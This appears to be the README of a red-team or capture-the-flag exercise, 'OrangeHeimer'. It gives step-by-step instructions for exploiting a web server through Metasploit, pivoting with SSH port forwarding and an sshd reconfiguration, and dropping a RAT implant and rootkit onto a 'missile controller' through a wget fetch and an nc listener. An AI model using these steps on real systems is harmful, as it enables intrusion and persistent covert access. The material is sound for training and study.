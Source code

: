 # OrangeHeimer
## Network Diagram
![OrangeHeimerNetwerk](https://github.com/user-attachments/assets/d6b00e75-2c73-411a-b7a7-92f11a9e2214)
## Stage 1: Oranco Mining Web Server Exploitation
### Objective
Exploit web server and set up connection to internal relay SSH
### Files:
- orangeland.py
- stage1.rc
### IPs and Ports:
All can be customized in stage1.rc file
- thrower box 10.0.1.21:4444
- oranco Web 10.0.1.1:8443
- thrower SSH 127.0.0.1:22
- relay SSH 172.31.82.221:22
### How to Run:
- run "chmod +x orangeland.py"
- move orangeland.py into metasploit-framework/embedded/framework/modules/exploits/unix/webapp/
- run "msfconsole -r exploit.rc" -- this may need to be run with sudo depending on computer configs
### Possible Failures and Solutions:
Orangeland.py has been tested on multiple ops and should work, if it doesn’t, then verbally harass the analysts.  
If portfwd fails:
- verify that the SSH server is running at the IP and port as indicated, if they are different, re run the portfwd command with -p <SSH_PORT> -r <SSH_IP>
- run "shell" in meterpreter, upgrade using "python3 -c 'import pty; pty.spawn("/bin/bash")'", and verify that the SSH credentials work
- run the portfwd command with a different thrower port using -l <THROW_PORT> Note, this means that all future SSH commands cannot use sshpass and must use -p <THROW_PORT>  
## Stage 2: Setting up Network Communication
### Objective
Set up direct communication between orangeland and device controller using SSH port forwarding
### Files:
- stage2.sh
### IPs and Ports
Can be customized by editing stage2.sh
- thorwer SSH 127.0.0.1:22
- relay SSH 172.31.82.221:22
- thorwer -> controller port forward 127.0.0.1:4200 -> 172.31.86.120:8080
- first relay SSH -> thrower port forward (from controller) 172.100.0.1:4242 -> 127.0.0.1:4201
- second relay SSH -> thrower port forward (from controller) 172.100.0.1:4243 -> 127.0.0.1:4202
### How to Run:
- execute and verify stage 1
- run "./stage2.sh"
- verify success by opening http://localhost:4200 in a web browser, this should return a "Forbidden" page
### Possible Failures and Solutions:
If you cannot SSH into localhost:
- run shell in meterpreter
- upgrade using python3 -c 'import pty; pty.spawn("/bin/bash")'
- SSH into the server with ssh -Nf missileadmin@172.31.81.221
- run SSH reconfiguration commands and verify success
- execute port forwarding commands, using 10.0.1.1 instead of 127.0.0.1
  
If an error occurs in the reconfiguration of the SSH server:
- SSH into the server from localhost
- Check if /etc/ssh/sshd_config has 'GatewayPorts yes' in its last line, if not then sudo su and add it
- Restart ssh service, this can be done with "service ssh restart" or "systemctl restart ssh"
- Continue with normal port forwarding commands

If the commands execute normally, but no response is received from http://localhost:4200
- SSH into the server from localhost
- Run "netstat -plant", check if the output contains a TCP listener on 0.0.0.0:4242
- If the netstat does contain the TCP listener, it indicates that the mastersockets works. Verify that the controller is up and has the correct IP address with the analysts. Then attempt to rerun the first mastersockets command.
- If the netstat has the TCP listener on 127.0.0.1 instead of 0.0.0.0, then the server is not configured properly. Go through the confiugration remediation steps.
- If the netstat has no TCP listener on port 4242, or netstat -plant on the thrower has no open TCP listener on 0.0.0.0:4200, then it is a problem with SSH port forwarding. SSH into the server and determine the issue.  
## Stage 3: Exploiting the Missile Controller
### Files
- orangeRodent
- stage3.py
- dolos_rootkit.ko
### IPs and Ports
Can be edited through changing orangeRodent.c and re-cross-compiling and by editing stage3.py
- thorwer -> controller port forward 127.0.0.1:4200 -> 172.31.86.120:8080
- first relay SSH -> thrower port forward (from controller) 172.100.0.1:4242 -> 127.0.0.1:4201
- second relay SSH -> thrower port forward (from controller) 172.100.0.1:4243 -> 127.0.0.1:4202
### How to Run
- execute and verify stages 1 and 2
- run "python3 -m http.server 4201" in a directory with the orangeRodent and dolos_rootkit.ko to serve the controller the implant 
- run "nc -lv 4202" in a separate terminal to listen for the rat
- run "python3 stage3.py" to throw the exploit
### Possible Failures and Solutions:
If there is no request made to wget:
- TODO
  
If there is a request to wget, but the netcat listener never catches the rat:
- TODO
  
If the netcat listener receives the rat, but the rootkit is not up:
- TODO
